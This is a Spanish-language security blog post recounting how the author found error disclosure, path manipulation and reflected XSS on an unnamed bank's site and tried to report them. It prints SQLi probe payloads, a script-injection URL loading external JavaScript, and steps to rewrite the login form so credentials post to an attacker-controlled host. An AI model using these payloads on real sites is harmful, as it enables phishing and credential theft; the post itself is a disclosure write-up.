 ```yaml
---
title: "Hackeando un Banco Caso Real XSS Sensitive Data Exposure explicacin SQLi"
date: Mon, 16 Apr 2018 10:23:00 -0300
draft: false
type: posts
categories: 
- Seguridad,Seguridad Web,Sensitive Data Exposure,SQLi,Tips,XSS
---
```

# Hackeando un Banco Caso Real XSS Sensitive Data Exposure explicacin SQLi

<br/>

<br/>
[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgl2I1GmakJYZopMi2ZoIcdK-X3JA0f4sOCvv_HAOaJbrpU8tJpIRvoA8LKjLeW-rywEOgf8HiaufBWSVaqxzH7ImdAPTqrgCuA3_JMDxLEVHrXEOxQwaEXIlXgc-uvulus6BERkHr82ME1/s640/bank_hacked.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgl2I1GmakJYZopMi2ZoIcdK-X3JA0f4sOCvv_HAOaJbrpU8tJpIRvoA8LKjLeW-rywEOgf8HiaufBWSVaqxzH7ImdAPTqrgCuA3_JMDxLEVHrXEOxQwaEXIlXgc-uvulus6BERkHr82ME1/s1600/bank_hacked.png)

  
 Hace tiempo que no escribo, pero ahora amerita la ocasión... Estoy acostumbrado a escribir reportes de seguridad de las vulnerabilidades que encuentro en los sitios webs que visito, para mandárselo al encargado del sitio o webmaster. Normalmente cuando se encuentra un bug, es muy probable que se encuentren muchos más ya que en la mayoría de casos los errores los encuentro poniendo un "<marquee>" o una comilla simple  en cualquier parámetro _**GET**_ o _**POST**_ que encuentre. **Ejemplo:**

```
http://www.sitio.com/index.php?id=1<marquee>
http://www.sitio.com/index.php?id=1'
```

  

 Como ya muchos sabrán el primero es para encontrar [**XSS**](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\)) y el segundo para encontrar [**SQLi**](https://www.owasp.org/index.php/SQL_Injection), pero también sirven para encontrar [**LFI**](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion), [**Remote File Inclusion**](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion),  [**Directory file include**](https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_\(OTG-AUTHZ-001\)), **[inyección de código](https://www.owasp.org/index.php/Code_Injection), [inyección de comandos](https://www.owasp.org/index.php/Command_Injection)**... Existen muchos tipos de vulnerabilidades que se pueden encontrar con una simple comilla o un carácter no alfanumérico.

  

 En el primer caso ( **_?id=1<marquee>_** ) si la página se mueve es vulnerable a XSS, si en algún campo de la web aparece <marquee> todavía es vulnerable a XSS pero hay que buscar algún bypass y eso es aburrido y tedioso.

  

 En el segundo caso ( _**?id=1'**_ ), solo voy a explicar el caso del **SQLi** ya que no es la finalidad de este post explicar en detalle todos los tipos de ataques, esta es solo la introducción de a lo que quiero llegar... Pues bueno, si al poner la comilla simple lanza un _Error 404 (Not Found)_ probablemente el sitio no sea vulnerable a SQLi, pero si te encuentras con un error del tipo:

```
You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version for the
right syntax to use near '\'' at line 1
```

 Significa que es **vulnerable a SQLi**, si no aparece ese mensaje, pero el servidor responde un _Error 500 (Internal Server Error)_ o no responde nada (la página queda en blanco o no muestra resultados) hay que remplazar la comilla por un _**and 1=1**_ y por un _**and 1=2**_ **Ejemplo:**

```
http://www.sitio.com/index.php?id=1 and 1=1
http://www.sitio.com/index.php?id=1 and 1=2
```

  
 Si en el primer caso el contenido aparece bien, igual que sin el _**and 1=1**_, y en el segundo caso no aparece nada, significa que es **vulnerable a [Blind SQLi](https://www.owasp.org/index.php/Inyecci%C3%B3n_SQL_Ciega)**.  
  

 Como ven, con simples 2 o 3 pasos que verifiques cada vez que visites una web y veas algún _**?parameter=value**_ en la bara de direcciones, puedes encontrar muchos sitios webs vulnerables a diferentes tipos de ataques como los descritos arriba. (**\*Nota:** muchos parámetros están embellecidos como rutas, por ende también puedes encontrar parámetros GET que se pasan con el formato _**/parameter/value**_)

  

 Es en esa rutina de poner comillas me encuentro con que en el sitio web de un importante Banco, donde pongo una comilla en un parámetro _**script.aspx?Id=12'**_  y encuentro un error que filtra mucha información del servidor donde se aloja:

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhqMT4MCDsMuImmqX20DW6504YQPb49HWhgfbcRHSJWCZyXYQX58jc0lkeN-Z3XrgASuBgdCMGfuZnsCXRDoknjoQaeDlNnD9qO_C1zJtMItfa6WaQepVb0gCA_sr5LGtn5vSeAbSrP3FMq/s640/1_error.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhqMT4MCDsMuImmqX20DW6504YQPb49HWhgfbcRHSJWCZyXYQX58jc0lkeN-Z3XrgASuBgdCMGfuZnsCXRDoknjoQaeDlNnD9qO_C1zJtMItfa6WaQepVb0gCA_sr5LGtn5vSeAbSrP3FMq/s1600/1_error.png)

  

 Esta es una vulnerabilidad llamada [**Sensitive Data Exposure**](https://www.owasp.org/index.php/Top_10-2017_A3-Sensitive_Data_Exposure), el problema radica en que está activado el modo debug o modo desarrollador, por lo tanto se puede ver un útil reporte del error para los desarrolladores, pero que muestra demasiada información a terceros.  
  
**Datos obtenidos:**  

-    Sistema operativo del servidor.
-    Versión .NET Microsoft Framework.
-    Versión ASP.NET.
-    Ruta absoluta del proyecto en el servidor.
-    Extractos de código múltiple errores y logs.

  

 A primera vista no pareciera ser una vulnerabilidad seria, pero un hacker puede usar esta información para buscar la aplicación y su versión en repositorios de vulnerabilidades y exploits, para verificar si existe algún exploit listo para descargar, ejecutar y tomar el sistema. Por otro lado, solo le damos más información a un atacante para que busque vulnerabilidades más serias en el resto de las rutas y logs filtrados.

  

 Por suerte para el Banco al intentar inyectar código no se puede ya que las parámetros son _saneados_ (a los valores se les quita algunos caracteres famosos por ser usados para inyectar código como por ejemplo **' < >**), pero aun así se pueden inducir diferentes errores:

  

```
https://www.banco.xxx/ruta/script.aspx?Id=58l
Error: Could not find a part of the path "C:\ruta\home58l\link.inc".

https://www.banco.xxx/ruta/script.aspx?Id=58:1
Error: Invalid path for MapPath '/ruta/home58:1//link.inc'. A virtual path is expected.

https://www.banco.xxx/ruta/script.aspx?Id=58"l
Error: Illegal characters in path.
```

  
 También se puede inyectar la ruta de otra carpeta, pero por suerte para el Banco, a la consulta se le concatena el nombre de un archivo que debe existir dentro de la carpeta, así que solo se puede ver contenido de carpetas con el archivo concatenado en la consulta.  
  

```
https://www.banco.xxx/ruta/script.aspx?Id=58/../carpeta59/
200 OK!
```

  
 Por mi falta de conocimiento en ASP y NET es que me rindo de intentar buscar más formas de vulnerar el sistema, y como dije antes, si encuentras una vulnerabilidad, es posible que encuentres muchas más... Es así como encuentro un XSS:  
  

```
https://www.banco.xxx/ruta/script.aspx?Id=58<marquee>
```

 Se mueve todo así que es vulnerable a XSS, ahora pruebo con una imagen:  
  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhr51RBWEzW5lR_pj6DvAPoB-enOpNuod0F4UGU_EWhfWEoYMJOFhx8CmuthuRsTM57USB1taTeWhkm-9ZsGkIFjTkt-ETgJm0OPxLvL2Am1xIVRo8gHqGC7INZ2qVc0gRn9JED5_6weIXi/s640/2_xss.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhr51RBWEzW5lR_pj6DvAPoB-enOpNuod0F4UGU_EWhfWEoYMJOFhx8CmuthuRsTM57USB1taTeWhkm-9ZsGkIFjTkt-ETgJm0OPxLvL2Am1xIVRo8gHqGC7INZ2qVc0gRn9JED5_6weIXi/s1600/2_xss.png)

  
 Dos de los ataques más comunes que se pueden hacer para sacar provecho de un XSS, es el **robo de cookies** de sesión y la **suplantación de formularios de acceso** (usuario/contraseña). El robo de cookies no será efectivo ya que el Banco tiene un sistema de sesiones únicas por ende la cookie sólo sirve para recibir un mensaje de error, por tanto decido una suplantación de formularios de acceso.

  
 La forma más fácil de hacer esto es inyectando un código javascript que borre todo el contenido en la página web legítima y ponga los formularios para mandar las credenciales a un servidor que controle el atacante.  
  

```
https://www.banco.xxx/ruta/script.aspx?Id=97"><script type="text/javascript" src="http://yourjavascript.com/000000/a.js"></script>
o
https://www.banco.xxx/ruta/script.aspx?Id=97%22%3E%3Cscript%20type=%22text/javascript%22%20src=%22http://yourjavascript.com/000000/a.js%22%3E%3C/script%3E
```

  
 El javascript es muy sencillo y su sintaxis es esta:  

```
var html = `
<html>
<body>
<h1>Página web del Banco</h1>
<p><marquee>El banco más seguro del mundo.</marquee></p>
</body>
</html>
`;

document.body.innerHTML = html;
```

  
 Dentro de _**var html = \`<!-code here->\`;**_ se copia y pega el código de la página web de acceso del sitio web légitimo, se debe cambiar las rutas relativas agregando la url de la web original:  

```
De: <link rel="stylesheet" type="text/css" href="/login/assets/style.css">
A:  <link rel="stylesheet" type="text/css" href="https://www.banco.xxx/login/assets/style.css">
```

  
Por último y más importante, se debe reemplazar el _action_ del formulario a un script en PHP que guarde las credenciales en un servidor controlado por el atacante:  

```
De: <form action="/login.php" method="post">
A:  <form action="https://hacker-server.com/pass.php" method="post">
```

  
 Se puede ir viendo como queda el resultado apretando **F12** en cualquier web y pegando el código en la consola javascript:  
  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjqTMMSWrNI67ZuzEHkg858BgdINz09YlF0H_hErEYsOhjGkIrsHGpKi2INucByyShGdhyphenhyphencY8yHxE_p9D7FbZ-Ok3U1E2dkz3nP9EiIqxpBMVAI_0gQg2w5FY-Ed8veJQA88RP6mLeoe7TK/s1600/04_javascript_consola.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjqTMMSWrNI67ZuzEHkg858BgdINz09YlF0H_hErEYsOhjGkIrsHGpKi2INucByyShGdhyphenhyphencY8yHxE_p9D7FbZ-Ok3U1E2dkz3nP9EiIqxpBMVAI_0gQg2w5FY-Ed8veJQA88RP6mLeoe7TK/s1600/04_javascript_consola.png)

  
 Como es una prueba de concepto para mandar un reporte con la vulnerabilidad, el script en PHP que intercepta las credenciales simplemente será un script que muestre los parámetros POST en pantalla:  

```
<?php
echo "<pre>";
print_r($_POST);
echo "</pre>";
?>
```

  
 Ya todo está listo y el PoC funciona perfecto:  
  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhPuIOTsuYBEcXTxsR3bXB4bKWWR8Qk5vWtIH4-B2ernILz2FoK1nt8BbIginphDAVyMZKUNJRdYFYY4JekkSr54NGtPlnawxFklKv5wJb2empf5ZpoTKVztlZ2FgQsA8SvLyKkLJ874N75/s640/3_xss_funcional.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhPuIOTsuYBEcXTxsR3bXB4bKWWR8Qk5vWtIH4-B2ernILz2FoK1nt8BbIginphDAVyMZKUNJRdYFYY4JekkSr54NGtPlnawxFklKv5wJb2empf5ZpoTKVztlZ2FgQsA8SvLyKkLJ874N75/s1600/3_xss_funcional.png)

  
 Y cuando ingresan sus credenciales se envían al servidor del atacante:  
  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgDNJ8pCZrrSdqheDdTM2kATBOlP_3N8JebfA0pYgVPW3Nk09TnU3N5cvYPaoYmqxQ8QxS9nO6rMnpAtrVdiuIt_RGpTO5s3IJdf4zgIcYINYPO5f70SOv7lRm-7iF-KbiZazP15Tg4oIwv/s1600/4_post_password.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgDNJ8pCZrrSdqheDdTM2kATBOlP_3N8JebfA0pYgVPW3Nk09TnU3N5cvYPaoYmqxQ8QxS9nO6rMnpAtrVdiuIt_RGpTO5s3IJdf4zgIcYINYPO5f70SOv7lRm-7iF-KbiZazP15Tg4oIwv/s1600/4_post_password.png)

  
**Envío del reporte y respuestas**  
  
 Una vez con el reporte listo y con el PoC funcionando intento buscar alguna forma de contactarme con el Banco para enviárselo... No encuentro nada, así que uso una herramienta llamada [**contact.sh**](https://www.kitploit.com/2018/02/contactsh-osint-tool-to-find-contacts.html) que es un script que intenta varios métodos y convenciones para encontrar al encargado de un sitio web... Y nada nuevamente, así que me digno a escribirles a través de Twitter y me responden diciendo que escriba a un correo que me dieron.  
  
 Escribo al correo proporcionado y no me responden en varios días, ni siquiera un "Recibido, muchas gracias", así que de nuevo pido a través de Twitter algún mail para poder enviar el reporte.... YYY, visto!  
  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhmSqvt8iO_ZFSx2_Ywj35RwvEy-a3Z6jrU73fBQH8jfmBgvUvJe8qjU_C4Wmj2Q8NucYwajAkUxqBdhJeDnpg2J6pUt1luKMOjuG1OmEXCXBHfIiJdgfmJWoJesbnfCJaHzZuOCJlvmMI6/s400/5_twitter_sin_respuesta.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhmSqvt8iO_ZFSx2_Ywj35RwvEy-a3Z6jrU73fBQH8jfmBgvUvJe8qjU_C4Wmj2Q8NucYwajAkUxqBdhJeDnpg2J6pUt1luKMOjuG1OmEXCXBHfIiJdgfmJWoJesbnfCJaHzZuOCJlvmMI6/s1600/5_twitter_sin_respuesta.png)

  
 A la semana me llega un mail:  
  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh6TPdLEXFoz_QplsqtGlmJgmygQm4XmMRbxmtsO26EQFkfNQfkGkDP_5SUZx2us_GLnWclhejfTQeQklExD9kUF40XfIyFGEbH0vtCtWtTm2NdYey4sf-93hzT_mUaIvHchlP0mPUdpg0X/s640/6_mail_ejecutivo.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh6TPdLEXFoz_QplsqtGlmJgmygQm4XmMRbxmtsO26EQFkfNQfkGkDP_5SUZx2us_GLnWclhejfTQeQklExD9kUF40XfIyFGEbH0vtCtWtTm2NdYey4sf-93hzT_mUaIvHchlP0mPUdpg0X/s1600/6_mail_ejecutivo.png)

  
  
 Como pueden ver me mandaron el mail de un especialista en marketing y clientes, y no el de un especialista en seguridad, probablemente esas dos áreas estén muy separadas dentro del Banco y ni si quiera se comuniquen, así que el reporte de seguridad quedó archivado como un reclamo de cliente...  
  
 Y un día después del mail me llaman:  
  
**Yo:** Alo?  
**Telefonista:** Hola, llamamos del Banco X para informarte que tu reclamo fue derivado al área que corresponde.   
**Yo:** No es un reclamo, es un reporte de seguridad. A qué área lo derivaron?  
**Telefonista:** No lo sé, nosotros somos el área de clientes, pero te van a contactar!  
**Yo:** Ok! Gracias por la información, Adiós!....... Espera, tienen Bug Bounty?  
**Telefonista:** \[Cuelga\]

  
 Hasta el día de hoy, nadie me ha contactado y las vulnerabilidades se mantienen exactamente como el primer día que las reporté. Ya pasó más de un mes y al parecer no hay intención de arreglarlo, así que me decidí a escribir este post.  
  
**Conclusiones**  
  
 Los XSS son vulnerabilidades que tienen un impacto bajo hoy en día, el ataque que mostré arriba, solo puede ser replicado en Firefox ya que todos los demás browsers bloquean los posibles XSS, eso no exime de responsabilidades a los encargados de seguridad. Como pueden ver también el Banco no tiene protocolos para reportar bugs y mucho menos un programa de Bug Bounty. La situación es peor ya que investigando un poco más, el Banco terceriza el desarrollo de aplicaciones (contrata una empresa externa para que las haga), eso en muchos casos es útil, pero en un Banco que maneja datos sensibles de clientes no debería tener permitido traspasar datos a empresas externas, menos delegar la seguridad a ellos. Hay que notar también que las tecnologías usadas para el desarrollo de aplicaciones bancarias ya están obsoletas y los problemas presentados anteriormente son en gran medida por usar Frameworks anticuados que no validan como corresponden los inputs y malas configuraciones.  
  
Las pruebas de concepto que se presentan arriba fueron realizadas con la finalidad de demostrar el impacto que pueden tener y en ningún momento fueron usadas con otra finalidad.  
  
\[+\] Salu2  
\[!\] Zion3R

#### [Source](http://www.blackploit.com/2018/04/hackeando-un-banco-caso-real-xss.html)

<br/>
---
